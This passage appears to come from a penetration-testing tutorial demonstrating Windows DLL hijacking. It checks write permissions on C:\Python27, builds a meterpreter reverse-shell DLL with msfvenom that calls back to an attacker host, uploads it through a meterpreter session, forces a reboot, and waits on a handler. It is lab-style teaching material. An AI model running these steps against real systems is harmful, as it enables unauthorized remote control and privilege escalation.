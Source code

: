 ```
C:\>
```
BINGO! Authenticated users have modification permissions!

One last check left. We should ensure if C:\Python27 directory added in the PATH environment variable. The easiest way to do this, typing “python -h” in the shell. If the help page is displayed successfully it means the directory is added in the PATH:
```
meterpreter > shell
Process 3360 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\>python -h
python -h
usage: python [option] ... [-c cmd | -m mod | file | -] [arg] ...
Options and arguments (and corresponding environment variables):
-B     : don't write .py[co] files on import; also PYTHONDONTWRITEBYTECODE=x
-c cmd : program passed in as string (terminates option list)
-d     : debug output from parser; also PYTHONDEBUG=x
-E     : ignore PYTHON* environment variables (such as PYTHONPATH)
-h     : print this help message and exit (also --help)
```
Nice! Let’s create a simple reverse shell payload as a dll and put here:
```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.60 lport=8989 -f dll > hijackable.dll
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86_64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
root@kali:~# 
```
Then place it in the C:\Python27 directory:
```
meterpreter > upload -f hijackable.dll
[*] uploading  : hijackable.dll -> hijackable.dll
[*] uploaded   : hijackable.dll -> hijackable.dll
meterpreter >
```
Now, we should restart the Vulnerable.exe process, so that the process can load malicious dll. We can try to kill process. If we are lucky it will be started automatically:
```
meterpreter > kill 952
Killing: 952
[-] stdapi_sys_process_kill: Operation failed: Access is denied.
```
We are unlucky today, not even killed. Anyway, we can try restarting the machine. If the “Vulnerable.exe” is a startup application, a service, or a scheduled task it will be launched again. At worst, we will wait for someone to run it.
```
meterpreter > shell
Process 3024 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Downloads>shutdown /r /t 0
shutdown /r /t 0
[*] 192.168.2.40 - Meterpreter session 3 closed.  Reason: Died
```
Machine is restarting. Let’s start a new handler and hope it starts again:
```
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
```